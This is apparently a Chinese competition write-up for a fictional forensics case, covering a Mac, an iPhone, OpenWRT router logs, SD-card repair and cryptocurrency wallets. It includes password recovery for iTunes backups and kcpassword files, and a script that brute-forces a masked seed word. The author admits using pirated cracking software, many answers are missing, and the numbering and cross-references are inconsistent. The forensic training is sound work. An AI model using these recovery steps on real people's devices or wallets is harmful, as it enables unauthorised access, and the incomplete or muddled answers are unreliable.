> HFS+是一个HFS的改进版本，支持更大的文件，并用Unicode来命名文件或文件夹，代替了Mac OS Roman或其他一些字符集. 和HFS一样，HFS+也使用B树来存储大部分分卷元数据。
>
> ——《百度百科》

但是这里有个小坑，就是从火眼貌似是不区分HFS和HFS+，我最开始选的也是HFS，后来在翻文件的时候才看到HFS+的相关文件，才改过来。




但是取证大师的解析是没有问题的，这个时候我意识到取证大师的Mac分析做的比火眼好，我下来就主要使用取证大师做分析了。


## 58. 王景浩计算机的操作系统 (Operating System) 版本是什么? 



## 59. 王景浩的计算机当前有多少个用户 (包括访客 'Guest' )? 

## 60. 王景浩的计算机里有一个用户被删除，被删除的用户名称是什么? 




但是火眼里面确实90个，而且还没算删掉的那个用户。


## 61. 王景浩的计算机有多少个 '聚焦' 的搜索记録 (Spotlight Search) ?

他的聚焦默认走的是googlechrome的框架，所以就会在google浏览器里面留下记录。或者可以直接全局搜索“Spotlight”


## 62. 当用户设置了自动登录 (Auto Login) 后，王景浩计算机的操作系统会产生哪个档案? 

这个是noah做的，来源是这个[MacOS 登录密码设置文件 kcpassword 的加解密算法](https://www.cnblogs.com/zhwer/p/15263277.html)

## 63. 王景浩计算机的登录密码 (Login Password) 是什么?

A. 1qa@WS3ed B. 3ed\$RF5tg C. 5tg^YH7uj D. 2ws\$RF6yh`

挨个尝试……说实话，不太懂这个题想考什么/脑壳疼

## 64. 在王景浩的计算机里，他最后使用哪个电邮地址登录 'iCloud' 账号?


## 65. 王景浩计算机里的手机备份 (iTunes Backup) 包含哪些iOS版本?



## 66. 王景浩曾经将一台 iPhone 6 连接他的计算机，请问它最后的连接时间是什么?

这里感觉题目说的不是很严谨，这里的连接到底是usb连接还是蓝牙连接。

蓝牙连接是这个：


如果是usb的话，应该是这个：


## 67. 苹果手机备份的密码 (iTunes Backup Encryption Password) 会记录在什么档案?

## 68. 以下哪种工具可以用作破解密码?

A. Passware B. John The Ripper C. HashCat D. Password Recovery Toolkit

## 69. 通过 'hashcat' 破解 'iTunes Backup' 密码需要制订一个 'txt' 档案，若该备份的手机iOS版本是10以上，需要按照下列哪个提示字符 (String) 的数据去制订这个 'txt' 档案?

A. WPKY B. ITER C. SALT D. DPIC E. DPSL

## 70. 王景浩采用了4位数字加密了他的iPhone XR的备份，分析它的密码 是什么?

我们直接搜索`Hashcat iTunes backup` 便可以得到hashcat的论坛相关内容：[iTunes备份(hashcat.net)](https://hashcat.net/forum/thread-6047.html)和[iTunes备份(hashcat.net)](https://hashcat.net/forum/post-33257.html)，浏览这两个帖子便可以得知苹果手机的备份密码会存储在Manifest.plist里面，以及我们对ios10以上需要声明一下内容：



然后68题貌似只能挨个搜索。B不可以，其他都可以。

在浏览论坛的时候看到这个：



于是果断下载了一个Elcomsoft的破解版（别问，问就是没钱，然后根据提醒，稍微爆破一下就出来了。

2022

## 71. 最后一次连上王景浩计算机的3D打印机的IP地址是什么?



## 72. 3D打印机最后一次在王景浩的计算机尝试打印的时间? 

查看连接记录：


## 73. 最后一次经由王景浩计算机打印的3D图档案名字是什么?

查看用户痕迹，最后访问的gcode文件应该就是最后打印的文件：

> **.GCODE 文件**包含G-Code格式的命令，G-Code是一种用于描述3D打印机应如何打印作业的语言。 它以纯文本形式存储指令，每行表示不同的命令，例如打印机的打印速度、温度设置以及打印部件的移动位置。 .GCODE 文件是通过切片程序创建的，例如Simplify3D和Slic3r，它们将CAD图形转换为G代码，3D打印机可以读取G代码



## 74. 王景浩计算机的Safari浏览器的默认搜索引擎 (Default Search Engine) 是什么?

查看safari的历史记录搜索引擎占比，明显goole占比最高，那么默认搜索引擎应该就是google

## 75. 分析王景浩计算机的数据，王景浩的比特币钱包 (Bitcoin Wallet) 地址是什么?

查看邮箱记录，可以看到犯罪嫌疑人发送给别人的比特币钱包地址：



## 76. AGC公司员工 'Carson' 有一个由公司发给他的电邮账户，分析王景浩的计算机数据并找出 'Carson' 的电邮账户密码。

查看邮件记录，有最初的密码：



## 77. 王景浩曾经冒充AGC公司员工 'Carson' 发送电邮给AGC 客户，这 封电邮的 'Message-ID' 是什么? 回答它的首８位数值。

关于MessageID可以看一下这个：[MessageID](https://www.accelo.com/resources/blog/how-to-find-an-email-s-message-id/)


## 78. 王景浩采用计算机里的哪种工具进入和盗取AGC公司的数据?

综合分析AC，（TeamViewer是用tor下载的，需要用取证大师的小程序分析）

## 79. 王景浩在AGC公司盗取了下列什么类型的档案?

通过查看用户痕迹只发现了这个：


## 80. 王景浩的计算机于2022年9月29日曾经接上一个虚拟专用网络 (Virtual Private Network - VPN)，这个VPN的IP地址是什么?

通过搜索openvpn相关信息，得知openvpn配置文件为ovpn，便可搜索ovpn关键词，搜索到文件：



## 81. 装置 '「KingHoo」的iPhone' 的蓝牙媒体访问控制地址 (MAC Address) 是什么? 


## 82. 王景浩何时将 '小宝' 加为iPhone XR的手机联络人 (Contact) ? 

查看取证结果


## 83. 王景浩的iPhone XR显示他的汇丰银行户口于2022年9月19日收到 多少存款?

查看短信



## 84. 王景浩的iPhone XR没有收藏 (Bookmark) 哪家音响品牌的网页?

A. KEF B. EDIFIER C. BOSE D. YAMAHA E. Bowers & Wilkins


## 85. 王景浩的iPhone XR手机记录了他曾于2022年8月26日试飞无人机， 当天试飞的地点在哪里?

A. 大埔海滨 B. 启德 C. 数码港 D. 西环 E. 将军澳

从照片的Exif信息或者无人机飞行数据都可以得知经纬度，再挨个搜索对照一遍就好了。


## 86. 王景浩于2022年8月26日试飞无人机的总飞行时间 (Total Flight Time) 多久?

A. 6分58秒 B. 8分10秒 C. 9分6秒 D. 11分1秒 E. 15分33秒

我们通过火眼的物联网取证，或者一系列工具，解析一下从手机里面提取出来的无人机飞行记录。这次比赛我用的是airdrone这个网站，更加清晰与准确。


## 87. 王景浩用 iPhone XR 拍了一张照片'IMG_0012.HEIC'，那照片什么 地方曾被修改?

A. 拍摄时间 B. 经纬度 C. 时区 D. 档案名称 E. 拍摄装备


## 88. 承上题，那张照片修改后的经纬度是什么?

我们分别提取0012.HEIC和0011.HEIC、0013HEIC的Exif信息，然后对比一下就可以知道。



## 89 主机名

OpenWRT 的配置文件集中在 `etc/config` 下面, 主机名在系统配置文件 `system` 下



## 90 配置项查询

LAN IP 在 `network` 下

```plaintext
config interface 'lan'
    option device 'br-lan'
    option proto 'static'
    option netmask '255.255.255.0'
    option ip6assign '60'
    option gateway '192.168.1.1'
    option ipaddr '192.168.1.24'
    list dns '8.8.8.8'
```

显然, LAN 的地址是 `192.168.1.24`, A √

VPN 对于 OpenWRT 相当于一个新的接口 (interface), 也在 `network` 下

```plain
config interface 'OVPN'
    option proto 'none'
    option device 'tun0'
```

看来 VPN 是在 `tun0` 这个设备下, 在 `etc/openvpn` 下可以看到 OpenVPN 的配置文件, 所以是 OpenVPN 而不是 PPTP, B ×

WiFi 配置在 `wireless` 下

```plaintext
config wifi-device 'radio0'
    option type 'mac80211'
    option path 'platform/soc/fe300000.mmcnr/mmc_host/mmc1/mmc1:0001/mmc1:0001:1'
    option channel '36'
    option band '5g'
    option htmode 'VHT80'
    option cell_density '0'

config wifi-iface 'default_radio0'
    option device 'radio0'
    option network 'lan'
    option mode 'ap'
    option ssid 'OpenWrt'
    option encryption 'psk2'
    option key '59814785'
```

所以 C ×

DHCP 的配置文件在 `dhcp`

```plain
config dhcp 'lan'
    option interface 'lan'
    option leasetime '12h'
    option dhcpv4 'server'
    option dhcpv6 'server'
    option ra 'server'
    list ra_flags 'managed-config'
    list ra_flags 'other-config'
    option ignore '1'
    option start '100'
    option limit '200'
```

所以确实在 LAN 上提供了 dhcp 服务, D √

时区在 `system` 下, 是 `HKT-8`, `Hong Kong Time`, 也是 UTC+8, E √

## 91 OpenVPN 配置

> 这里不太确定, 因为没有配置过 OpenVPN...
> 不过本题的答案可以和后边 pcap 流量分析的结果进行交叉验证, 因为王也是通过这台路由器上的 OpenVPN 作为中转访问 AGC 的服务器的

如前所述, 在 `etc/config/openvpn` 下, 我们可以看到有两个配置文件 `server.conf` 和 `rooney.ovpn`, 前者是服务器端的配置文件, 后者 **理论上** 应该是客户端的配置文件 (但是不知道为什么在这里 ~~可能是生成完了忘删了~~).

从后者我们可以看到以下内容

```plain
user nobody
group nogroup
dev tun
nobind
client
remote 61.238.217.108 1194 udp
auth-nocache
remote-cert-tls server
# 下面是证书内容了
```

所以 OpenVPN 服务器是在 `61.238.217.108:1194` 上

## 92 日志文件位置

在 `etc/config/system` 下, 可以看到

```plain
    option log_file '/usr/kinghoo/RecoRd/SYSlog'
```

所以是 `SYSlog`, 注意格式要求

## 93 94 日志分析

> 这两道题都比较迷, 因为在 `SYSlog` 之外, 还有个已经被删除的 `SYSlog.old`, 时间如下图


> `SYSlog.old` 保存的信息确实更老, 可能是王手动删除过日志

## 93 VPN 登录

通过筛选出包含 `openvpn` 的行观察, 我们发现登陆成功的日志条目包含 `Peer Connection Initiated with` 这段信息, 一次典型的登陆成功流程如下.

```plain
Fri Oct 21 09:32:06 2022 daemon.notice openvpn(server)[1357]: 14.0.169.140:33245 peer info: IV_VER=3.git::d3f8b18b
Fri Oct 21 09:32:06 2022 daemon.notice openvpn(server)[1357]: 14.0.169.140:33245 peer info: IV_PLAT=mac
Fri Oct 21 09:32:06 2022 daemon.notice openvpn(server)[1357]: 14.0.169.140:33245 peer info: IV_NCP=2
Fri Oct 21 09:32:06 2022 daemon.notice openvpn(server)[1357]: 14.0.169.140:33245 peer info: IV_TCPNL=1
Fri Oct 21 09:32:06 2022 daemon.notice openvpn(server)[1357]: 14.0.169.140:33245 peer info: IV_PROTO=30
Fri Oct 21 09:32:06 2022 daemon.notice openvpn(server)[1357]: 14.0.169.140:33245 peer info: IV_CIPHERS=AES-256-GCM:AES-128-GCM:CHACHA20-POLY1305:BF-CBC
Fri Oct 21 09:32:06 2022 daemon.notice openvpn(server)[1357]: 14.0.169.140:33245 peer info: IV_AUTO_SESS=1
Fri Oct 21 09:32:06 2022 daemon.notice openvpn(server)[1357]: 14.0.169.140:33245 peer info: IV_GUI_VER=OCmacOS_3.3.6-4368
Fri Oct 21 09:32:06 2022 daemon.notice openvpn(server)[1357]: 14.0.169.140:33245 peer info: IV_SSO=webauth,openurl,crtext
Fri Oct 21 09:32:06 2022 daemon.notice openvpn(server)[1357]: 14.0.169.140:33245 peer info: IV_BS64DL=1
Fri Oct 21 09:32:06 2022 daemon.notice openvpn(server)[1357]: 14.0.169.140:33245 [client] Peer Connection Initiated with [AF_INET]14.0.169.140:33245
Fri Oct 21 09:32:06 2022 daemon.notice openvpn(server)[1357]: client/14.0.169.140:33245 MULTI_sva: pool returned IPv4=192.168.8.2, IPv6=(Not enabled)
```

之后提取并去重输出 (`SYSlog.merged` 是我合并之后的文件)

```bash
Horizon@Horizon-Laptop MSYS /c/Users/Horizon/Desktop
$ cat SYSlog.merged | grep 'Peer Connection Initiated with' | awk '{print $8}' | awk -F':' '{print $1}' | sort -u

14.0.169.140
155.137.190.121
155.137.190.123
```

所以是 3 个

如果仅考虑 `SYSlog` 的话, 应该是两个

```bash
Horizon@Horizon-Laptop MSYS /c/Users/Horizon/Desktop
$ cat SYSlog | grep 'Peer Connection Initiated with' | awk '{print $8}' | awk -F':' '{print $1}' | sort -u
14.0.169.140
155.137.190.123
```

## 94 root 用户登录记录

同上, 我们观察到 root 登陆失败的条目包含 `Bad password attempt for 'root' from`, 一样的操作

```bash
Horizon@Horizon-Laptop MSYS /c/Users/Horizon/Desktop
$ cat SYSlog.merged | grep "Bad password attempt for 'root' from" | awk '{print $14}' | awk -F':' '{print $1}' | sort -u

124.79.243.92
129.146.59.220
159.146.68.59
183.223.37.167
37.116.206.113
52.231.39.245
61.184.24.249
```

所以有.... 7 个.... 🤯

如果只看 `SYSlog`, 是 5 个

```bash
Horizon@Horizon-Laptop MSYS /c/Users/Horizon/Desktop
$ cat SYSlog | grep "Bad password attempt for 'root' from" | awk '{print $14}' | awk -F':' '{print $1}' | sort | uniq

129.146.59.220
183.223.37.167
37.116.206.113
52.231.39.245
61.184.24.249
```

## 95 被删除的文件夹

> ~~这道题我们没有做出来, 因为我们完全没有在 `usr` 下找到 `rooney` 这个文件夹, 或其存在的历史~~
> ~~不过 `SYSlog` 所在的 `RecoRd` (在 `usr\kinghoo\` 下) 确实已被删除, 所以可能这个是答案~~
> 从 `etc/config/system` 下发现路由器配置了远程 log 服务器 `103.10.12.106`, 所以应当在该机器上查找


## 96 王景浩 SD 记忆卡的储存容量有多少个字节?

> 8004304896

WinHex 或者 X-Ways Forensics 打开, 在信息中就可以看到.


## 97 检视记忆卡上硬盘分区表资讯, 记忆卡共有多少个分区?

> A:1
> B:2
> C:3
> D:4
> E:0

随便一个可以识别镜像文件系统的软件都可以看到找到了两个分区, 第一个是 FAT32 分区, 第二个识别不到分区文件系统.

用 WinHex 或 Xways 自带的模板识别 MBR 也可以看到有两个分区.


## 98 检视记忆卡上硬盘分区表资讯, 第一个分区的分区代码是什么?

> A:07
> B:AF
> C:0C
> D:2B
> E:01

分区代码在上题图中显示为 `Partition Type Indicator`, 第一个分区为 0x0C.

其实这是一个常识, 分区代码与文件系统相对应. 参见 [Partition types: List of partition identifiers for PCs (tue.nl)](https://www.win.tue.nl/~aeb/partitions/partition_types-1.html) or [Partition type - Wikipedia](https://en.wikipedia.org/wiki/Partition_type).

## 99 记忆卡的档案不能被读取, 记忆卡受损的原因包括?

> A:目录项结构受损
> B:启动扇区(MBR)表受损
> C:文件分配表(FAT)受损
> D:引导扇区受损
> E:以上各项皆是

读取镜像之后, 首先分区正常识别了, 那么 MBR 应没有受损. 但分区二的文件系统无法识别, 应是分区二的 DBR 受损. 因此引导扇区有受损.

分区一中文件系统中目录及文件均出现混乱, 应是目录项结构与文件分配表均受损.

这些结论可以通过下题修复过程中看到的情况印证.

## 100 承上题, 通过分析及手动恢复还原, 记忆卡里有多少个受损的情况出现?

> 8

首先需要找到记忆卡受损的原因. 从先前的分析中, 已知分区二的 DBR 受损, 因此很容易定位到这处受损的位置. 在 WinHex 或 Xways 中以 16 进制查看分区二的第一个扇区.


可以发现, 按理来说第一个扇区为 DBR, 应当出现文件系统的签名. 根据第 67 题中看到的 MBR 中记录的分区情况, 分区二的分区代码为 0x07, 应是一个 NTFS 分区. 然而该分区的 DBR 出现在了下一个扇区, DBR 扇区被一个以 "USBC" 开头的扇区取代. 

接着可以定位到分区一中出现的几个异常部分. 这些异常部分所在的扇区均为 "USBC" 开头的相同扇区. 


因此大致可以猜测, 镜像受损的原因是莫名出现的 "USBC" 扇区. 对 `0x55534243F0` 进行全局搜索, 发现整个镜像中共出现了 8 个完全相同的异常扇区.  



接下来就要删除这些异常的扇区. 这里出现了一个问题, 这些扇区是如何被添加进来的. 我考虑了两种情况 (假设原扇区顺序为 `ABCDE000`, 0 代表空白扇区, X 代表异常扇区):
- 在正常扇区间插入, 之后扇区后延, 并占用一个空白扇区, `AXBCDE00`
- 在正常扇区间插入, 之后扇区后延, 并导致总扇区数增加, `AXBCDE000`

尝试之后发现是前者. 处理起来稍微有些繁琐, 需要在 WinHex 里面先将 "USBC" 扇区后, 到空白扇区为止的所有扇区移动覆盖到 "USBC" 扇区, 再将最后多出来的未被覆盖的扇区用 0 覆写. 例如, 目前是 `AXBCDE00`, 将 `BCDE` 复制到 `X` 的位置, 变成 `ABCDEE00`. 再将多出来的 `E` 用 0 覆写, 变成 `ABCDE000`. 

在网上搜索了一下, 发现或许是 USBC 病毒导致的: [File system corruption and USBC folder and files.. – DiskTuna](https://www.disktuna.com/sudden-appearance-of-usbc-named-folder-and-files/) 不过并没有找到更好的修复方法.

## 101 记忆卡第一个文件系统中有一个图片档案，它的 SHA-256 是 F7E003781456D2E01CFE0EB46988D5BB433ADF9841164BBB90BAC67C0C9B21AF. 该档案显示了哪些影像?

> A:人
> B:山
> C:汽车
> D:交通灯
> E:天空

![[Pasted image 20221117165307.png]]

修复好 SD 卡后导入火眼, 开启文件全显之后在分区一中过滤 jpeg 文件, 全选计算 SHA-256. 然后过滤 SHA-256 即可找到图片.

## 102 检视记忆卡的数据, 在 2022 年 10 月 9 日约中午 12 时 5 分至 12 时 15 分之间的录像中, 曾经出现哪一个IP地址?

> A:61.238.217.108
> B:155.137.190.123
> C:192.168.1.66
> D:185.200.100.242
> E:213.104.156.111

所有视频的时长都是 1 分钟的, 大概是摄像头设置了每 1 分钟自动保存. 过滤一下创建时间在 `2022-10-09 12:04:00` 到 `2022-10-09 12:16:00` 之间创建的 mp4 文件. 挨个看.

在 `13M38S_1665288818.mp4` 中, 有人访问了 IP 查询网站, 并查到了 `185.200.100.242` 的地理信息. 



## 103 恢复还原后的记忆卡中, 第二个文件系统显示有多少个空闲簇?

> 2803109

在 WinHex 或 Xways 的统计信息中可以看到.



## 104 记忆卡第一个文件系统中有一个视频档，它的 SHA-256 哈希值是 847E1E5FEF64B49C8D689DC3537D619B87666619A7C1EF0CC821153641847C19, 这个视频档数据存在文件系统的最后的簇号是什么?

> 516510

找到视频文件的方法与第 71 题相同. 找到视频文件为 `/IP_CAM/MIJIA_RECORD_VIDEO/2022100820/14M29S_1665231269.mp4`.

在 WinHex 或 Xways 中右键点击文件, 选择 导航 -> 列出的簇, 在这里可以看到文件占据的最后的簇号为 516510.




## 105 经过手动恢复还原后记忆卡的 SHA-256 哈希值是什么?

> A: E63DF0... ...8627D3
> B: 3FD99E... ...17B6DE
> C: 3BADAA... ...666A8F
> D: BBB211... ...E00710
> E: AA9E81... ...2C04FE



## 106. 朗尼的计算机有什么软件可以创建比特币钱包  (Bitcoin Wallet)?

> A:MetaMask
>
> B:Electrum
>
> C:Trezor
>
> D:以上皆非

**MetaMask**（小狐狸），是用于与[以太坊](https://zh.wikipedia.org/wiki/以太坊)[区块链](https://zh.wikipedia.org/wiki/区块链)进行交互的软件[加密货币钱包](https://zh.wikipedia.org/wiki/加密貨幣錢包)。它可以通过浏览器扩展程序或移动应用程序让用户访问其以太坊钱包，与去中心化应用进行交互。

**Electrum** 是一款受欢迎的轻量级比特币钱包，基于中本聪提出的SPV原理对比特币交易信息进行验证。 其功能丰富，开源而且注重安全。

**TREZOR** 是一个硬件钱包，它具有高安全性，同时又不会以牺牲方便性为代价。 与冷储存（cold storage）不同，TREZOR在连接到一个在线设备时是可以实现交易的。 这意味着即便是在使用不安全的电脑的时候，使用比特币都是十分安全的。





## 107.朗尼通过比特币替王景浩清洗黑钱，分析朗尼的计算机及手机，朗尼收取王景浩黑钱的比特币地址  (Bitcoin Address) 是什么? (以大写英文及阿拉伯数字回答)


## 108.朗尼收取王景浩多少比特币作为清洗黑钱的费用?

> A:1%;B:4%;C:7%;D:10%,E:15%

D

## 109.朗尼的计算机里有一个没被加密的比特币钱包，它的回复种子  (Recovery Seed) 不包含哪一个英文字?


## 110.朗尼的计算机里有多少个加密了  (Encrypted) 的比特币钱包?




## 111.朗尼将加密了的比特币钱包的密码存在他计算机的一个档案里，这个档案的副档名是什么?  (以大写英文及阿拉伯数字回答)




ASD文件是Word的自动保存文件当遭遇意外断电，重启等原因时可以为保存一份备份文件，以减少你的损失。 Word提供的“自动保存”功能，在“工具”→“选项”→“保存”选项卡中设定“自动保存间隔时间”，不要把这个间隔时间设置得太短，否则频繁的保存，一来浪费时间，二来损伤硬盘。

## 112.朗尼在手机里有一个加密了的比特币钱包，他采用什么应用程序把该钱包里的黑钱转换成另一种加密货币?

> A:Safepal;B:Metamask;C:Changelly;D:Opensea
>
> C


## 113.承上题，这次转换加密货币的日期和时间是什么?

> A:2022-10-07  10:29时;B:2022-10-07 11:06时;C:2022-10-07 11:07时;D:2022-10-07 13:54时
>
> A


## 114.朗尼在计算机里采用什么浏览器  (Browser) 及在什么日期时间在他的计算机安装 'MetaMask' ?


## 115.朗尼在计算机里所创建的非同质化通证  (Non-Fungible Token - NFT) 使用哪一个种区块链 (Blockchain) 技术?




## 116.朗尼在什么日期时间把计算机中创建的非同质化通证  (NFT) 放售?

> A:2022-10-07 14:47时;B:2022-10-07 14:49时;C:2022-10-07 14:52时;D:2022-10-07 14:54时
>
> D


## 117.朗尼的手机里，有什么应用程序与将黑钱  (比特币) 转换成另一加密货币的地址有关?

> A:Metamask;B:Opensea;C:Safepal;D:YouTube

B


## 118.朗尼的手机里，于2022-10-07，15:07时至15:08时做过什么动作?


## 119.承上题，从这个动作中能找到什么资讯?

> A:Opensea.io;B:Ethereum  Main Network;C:Your purchase is complete;D:Subtotal = 0.0253 ETH;E:Good  Luck     

ABCDE

## 120.在朗尼的计算机旁找到  'MetaMask' 的密码是 'opensea741'，找出朗尼计算机里的 'MetaMask' 中有多少加密货币余额? (不要输入  '.'，以阿拉伯数字回答，如 0.137 需回答 0137)



## 121.朗尼的计算机曾用什么电邮地址登录电邮帐号?  (不要输入答案中的 '@' 及 '.'，以大写英文及阿拉伯数字回答，如 name@mail.com，需回答 NAMEMAILCOM)


## 127 什么电邮账号曾接收过上述电邮地址发送的电邮？（不要输入答案 中的 '@' 及 '.'，以大写英文及阿拉伯数字回答，如name@mail.com，需回 答 NAMEMAILCOM）

这个在Roony电脑上Chrome浏览记录里面可以看到有寄件备份，说明就是用Roony的gmail邮箱发的，在本地我没有找到邮件，但是可以尝试仿真起来，直接用谷歌浏览器登入Roony账号，其实在kinghoo的mac里面可以看到有这个邮箱邮件的记录，可以在本地找到这个邮件的emlx文件，

## 123 承上题，上述的电邮附件包含哪些类型的档案?

之后用工具将里面的附件提取出来，发现是recovery seed.zip，用binwalk可以看到里面有两个txt和一个jpg文件，这个用binwalk我没有提取出来，不知道是什么的问题，但是用winrar可以这个zip修复，然后就可以看到里面的文件了

## 124 上述电邮附件里的文件，被遮蔽的英文单字是什么? (以大写英文回答) 

inch

## 125 根据上述电邮附件里找到的回复种子 (Recovery Seed)，计算朗尼 在 'MetaMask' 使用的以太币 (Ethereum) 地址。(提示：BIP-44 derivation path = m/44'/60'/0'/0/0) (以大写英文及阿拉伯数字回答) 



照片中内容是 12 个单词组成的 Recovery Seed, 朗尼使用的是以太坊地址, 算法与 [BIP 39](https://www.blockplate.com/pages/bip-39-wordlist) 有所不同, 但使用单词为相同的 2048 个单词:



Recovery Seed 的原理大致是对单词列表进行 hmac_sha_256 处理, 之后拿到对应地址的 16 进制串. 按照以太坊的定义[Electrum Seed Version System — Electrum 3.3 documentation](https://electrum.readthedocs.io/en/latest/seedphrase.html), 得到的前 4bits 为版本号, 具有一定的格式与特征, 因此可以通过爆破来获取正确的单词.

第一个词语可以看到最后两位为 "ch", 对残次表中结尾为 "ch" 的单词进行过滤:

```powershell
 Get-Content .\english.txt | findstr /e "ch"
```

下载一个 Electrum 的应用程序或者 python 脚本, 在导入钱包界面手动爆破. 一共 30 个单词, 手动爆破起来也比较快.


或者用 


提供的 python 脚本.

``` bash
python3 -m pip install seed_phrases_for_stellar
```

```python
from seed_phrases_for_stellar.seed_phrase_to_stellar_keys import to_binary_seed

words = ['arch', 'beach', 'bench', 'catch', 'clutch', 'coach', 'couch', 'crouch', 'crunch', 'dutch', 'enrich', 'fetch', 'inch', 'lunch', 'march', 'match', 'much', 'ostrich', 'patch', 'pitch', 'punch', 'ranch', 'rich', 'search', 'sketch', 'stomach', 'such', 'switch', 'teach', 'torch']
seed = "{} hard goddess mask alcohol eyebrow illegal quit edit shaft pill tourist"

for i in words:
  walet = to_binary_seed(seed.format(i))
  if walet[1] != "UNKNOWN":
    print(i, walet[1])
    
```

最后得到的结果为：

```text
bench BIP-0039
inch Electrum standard
teach BIP-0039
```

Roony 使用的是以太坊钱包, 所以被盖住的词语应该是 inch.

加载钱包之后就可以看到全部的地址了.

	

## 126 在 2022 年 9 月 28 日 18 时 51 分, 朗尼曾经在手机用 WhatsApp 与王景浩对话, 语句有灯, 风扇经常在转, 回复这句话的相关语句是什么?

> A:你有推介吗?
> B:我之前放在你家的机械运作正常吗?
> C:有灯号，风扇有转动?
> D:帅吗?


## 127 朗尼通过手机相约王景浩于 10 月 15 日到哪一个地区食晚饭?

> A:荃湾
> B:湾仔
> C:九龙城
> D:九龙塘


## 128 朗尼手机的 WhatsApp 号码是什么?

> `8525981478@s.whatsapp.net`

## 129 朗尼的手机曾连接以下哪一个WIFI网络?

> A:taiiphone
> B:rooneyhome
> C:Function Room
> D:TP-Link

在 基本信息 -> Wi-Fi 连接记录 中可以看到.

## 130 朗尼的手机曾连接 WIFI `[SSID: faifai]`, 它的登录密码是什么?

> A:abcd5678
> B:aaaa0000
> C:rooney111
> D:rdfu1234

同上题.
